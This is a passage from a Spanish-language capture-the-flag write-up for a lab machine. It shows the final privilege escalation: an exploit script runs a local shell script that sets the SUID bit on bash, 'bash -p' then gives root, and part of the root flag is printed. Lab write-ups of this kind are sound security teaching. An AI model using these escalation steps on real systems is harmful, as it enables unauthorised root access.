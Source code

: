 Le asignamos permisos de ejecución `kai_relay@formulax:/tmp$ chmod +x pwn.sh`

Modificamos el exploit de nuevo..
```python
shell_execute.execute("/tmp/pwn.sh", '',1)
```

Ahora al lanzar el exploit...
```shell
frank_dorky@formulax:/tmp$ python3 rce.py --host 127.0.0.1 --port 2002
[+] Connecting to target...
[+] Connected to 127.0.0.1
```

No nos muestra nada por la otra terminal...
![Write-up Image](images/Screenshot_30.png)

Y ya vemos que se ha asignado el permiso SUID a la bash.
![Write-up Image](images/Screenshot_31.png)

```shell
frank_dorky@formulax:/tmp$ bash -p
bash-5.1# id
uid=1002(frank_dorky) gid=1002(frank_dorky) euid=0(root) groups=1002(frank_dorky)
```

¡Y ya hemos escalado privilegios!

```shell
bash-5.1# cat /root/root.txt
04da1f3886a9...
```

Happy Hacking! 🚀